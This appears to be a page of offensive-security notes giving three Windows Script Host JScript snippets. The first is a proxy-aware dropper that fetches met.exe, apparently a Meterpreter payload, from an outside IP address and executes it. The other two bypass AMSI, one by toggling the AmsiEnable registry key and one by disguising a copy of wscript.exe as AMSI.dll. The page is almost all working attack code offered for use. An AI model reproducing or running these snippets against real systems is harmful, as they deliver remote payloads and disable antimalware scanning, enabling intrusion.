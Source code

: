 #### Windows Script Host (WSH)

##### Proxy-aware JScript Dropper

```
var url = "http://192.168.49.83/met.exe"
var Object = new ActiveXObject('Msxml2.ServerXMLHTTP.6.0');
Object.setProxy(2,"http://192.168.83.12:3128","");
Object.open('GET', url, false);
Object.send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream')

    Stream.Open();
    Stream.Type = 1; //adTypeBinary
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2); // 2 = overwrite
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

##### Jscript Amsi Enable Bypass

```
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
    var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable!=0){
      throw new Error(1, '');
  }
}catch(e){
    sh.RegWrite(key, 0, "REG_DWORD");
    sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName,0,1);
    sh.RegWrite(key, 1, "REG_DWORD");
    WScript.Quit(1);
}
```

##### Jscript Amsi Imposter Bypass

```
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
    {
        throw new Error(1, '');
    }
}
catch(e)
{
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName);
    WScript.Quit(1);
}
```
